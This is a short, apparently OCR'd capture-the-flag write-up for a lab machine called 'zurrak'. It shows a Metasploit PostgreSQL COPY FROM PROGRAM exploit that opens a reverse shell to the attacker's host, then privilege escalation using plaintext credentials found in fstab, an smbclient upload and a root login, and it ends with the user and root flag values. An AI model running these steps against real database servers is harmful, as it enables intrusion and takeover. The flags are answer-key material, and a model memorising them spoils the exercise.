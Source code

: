 ```bash
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run

[*] Started reverse TCP handler on 10.77.0.229:4444
[*] 10.77.0.21:5432 - 10.77.0.21:5432 - PostgreSQL 15.3 (Debian 15.3-0+deb12u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit
[*] 10.77.0.21:5432 - Exploiting...
[+] 10.77.0.21:5432 - 10.77.0.21:5432 - llmd0uFrHze dropped successfully
[+] 10.77.0.21:5432 - 10.77.0.21:5432 - llmd0uFrHze created successfully
[+] 10.77.0.21:5432 - 10.77.0.21:5432 - llmd0uFrHze copied successfully(valid syntax/command)
[+] 10.77.0.21:5432 - 10.77.0.21:5432 - llmd0uFrHze dropped successfully(Cleaned)
[*] 10.77.0.21:5432 - Exploit Succeeded
[*] Command shell session 1 opened (10.77.0.229:4444 -> 10.77.0.21:49658) at 2024-02-17 08:25:06 +0100

PAYLOAD:
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec)

id
uid=101(postgres) gid=110(postgres) groups=110(postgres),109(ssl-cert)
```

</details><details open="open"><summary><ins>PIVOTING OR PRIVILEGE ESCALATION</ins></summary>  

```bash
CODE:
Found credentials in fstab
//127.0.0.1/internal    uid=emre, pw=daily666
smbclient \\\\127.0.0.1/internal -U emre%daily666 -c "put emergency.sh"

PAYLOAD:
postgres@zurrak:/var/lib/postgresql/15/main$ su -
Password: 1234

root@zurrak:~# cd /root/
root@zurrak:~# ls
bash_history  root.txt
root@zurrak:~# cat root.txt
66fce7650a88ac2afd99d061e1c6a4df
```

</details><details open="open"><summary><ins>FLAGS</ins></summary>

```bash
USER:
fe8f97f109ceb0362c95e60338c4c1a8

ROOT:
66fce7650a88ac2afd99d061e1c6a4df
```

</details>